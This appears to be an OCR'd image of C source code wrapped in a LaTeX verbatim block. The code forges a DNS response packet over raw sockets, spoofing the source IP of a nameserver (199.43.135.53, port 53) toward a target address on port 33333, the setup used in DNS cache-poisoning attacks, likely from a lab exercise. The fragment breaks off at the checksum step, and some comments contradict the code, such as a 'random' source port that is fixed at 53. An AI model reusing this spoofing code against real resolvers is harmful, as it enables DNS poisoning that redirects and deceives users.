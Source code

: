 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{verbatim}
    sin.sin_family = AF_INET;
    din.sin_family = AF_INET;

    // Port numbers

    sin.sin_port = htons(33333);
    din.sin_port = htons(53);

    // IP addresses

    sin.sin_addr.s_addr = inet_addr(src_addr); // this is the second argument we input into the program
    din.sin_addr.s_addr = inet_addr("199.43.135.53"); // this is the first argument we input into the program

    // Fabricate the IP header or we can use the
    // standard header structures but assign our own values.

    ip->iph_ihl = 5;
    ip->iph_ver = 4;
    ip->iph_tos = 0; // Low delay

    unsigned short int packetLength =(sizeof(struct ipheader) + sizeof(struct udpheader)+sizeof(struct dnsheader)+length+sizeof(struct dataEnd)+anslength+sizeof( struct ansEnd)+nslength+sizeof(struct nsEnd)+addrlen+nsnamelen+arlength+sizeof(struct ansEnd)+araddrlen); // length + dataEnd_size == UDP_payload_size

    ip->iph_len=htons(packetLength);
    ip->iph_ident = htons(rand()); // we give a random number for the identification

    ip->iph_ttl = 110; // hops
    ip->iph_protocol = 17; // UDP

    // Source IP address, use the actual IP address of example.com nameserver

    ip->iph_sourceip = inet_addr("199.43.135.53");

    // The destination IP address

    ip->iph_destip = inet_addr(src_addr);

    // Fabricate the UDP header. Source port number is redundant

    udp->udph_srcport = htons(53);  // Random source port number, lower numbers may be reserved

    // Destination port number

    udp->udph_destport = htons(33333);

    udp->udph_len = htons(sizeof(struct udpheader)+sizeof(struct dnsheader)+length+sizeof(struct dataEnd)+anslength+sizeof( struct ansEnd)+nslength+sizeof(struct nsEnd)+addrlen+nsnamelen+arlength+sizeof(struct ansEnd)+araddrlen); // udp_header_size + udp_payload_size

    // Calculate the checksum for integrity//


\end{verbatim}
\end{document}
